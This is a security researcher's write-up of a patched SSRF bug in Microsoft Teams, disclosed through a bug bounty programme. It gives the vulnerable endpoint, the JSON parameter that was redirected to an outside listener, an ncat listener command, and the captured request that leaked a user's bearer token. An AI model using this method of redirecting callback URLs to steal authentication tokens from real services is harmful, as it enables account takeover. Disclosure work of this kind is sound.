



## Teams SSRF
While on vacation in December, I was digging around against MS services for some bugs and discovered several SSRFs in MS cloud services. One of which I was awarded a $5000 USD bounty for, due to (presumably) targetting Teams and disclosing user authentication tokens to external services.



Hell yeah! 

It was a pretty simple bug and now that it's patched and sufficient time has passed, MS gave me the green light for publishing.

### DELETE me

While creating a Teams meeting, I observed an interesting POST request was sent to an endpoint when I *unchecked* the "Online Meeting" slider and saved the meeting.



**Endpoint:**

`https://teams.microsoft.com/api/mt/part/amer-03/beta/me/calendarEvents/schedulingService/delete` 

This request included a small JSON body with two parameters: 

`{"links":{"update":"URL"}}`

Simply replacing the `update` parameter contents to a site under my control was enough to trigger this bug. Notably, the response received by the remote listener contains the user's authentication token. This token contains user claims, including `mfa`.

Setting the vulnerable param to my listener at `http://localh0st.run:8080/`, I received the following `DELETE` request:

```
root@localh0st:~# ncat -lvp 8080
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 52.115.93.34.
Ncat: Connection from 52.115.93.34:1920.
DELETE / HTTP/1.1
Host: localh0st.run:8080
Authorization: Bearer eyJ0eXAiOiJKV[...]DYY1BZTuAOKZs_w6Yx_-uIg
x-ms-skype-originator-region: amer
x-ms-skype-originator-region-chatsvc: https://amer.ng.msg.teams.microsoft.com
X-MS-Skype-MLC-Telemetry-Id: 84A1482CD08F45B4A53F791B9E0C6CB2
User-Agent: SkypeSpaces/1.0a$*+
x-ms-request-id: 3E23A7108BA249DCB247AE6ECF21A4F0
traceparent: 00-430bd1bae5f9bc8620358849d3c0eed7-44930dd974fb51dc-00
```

Kind of a shitty screenshot, but it's gets the point across:




That's it!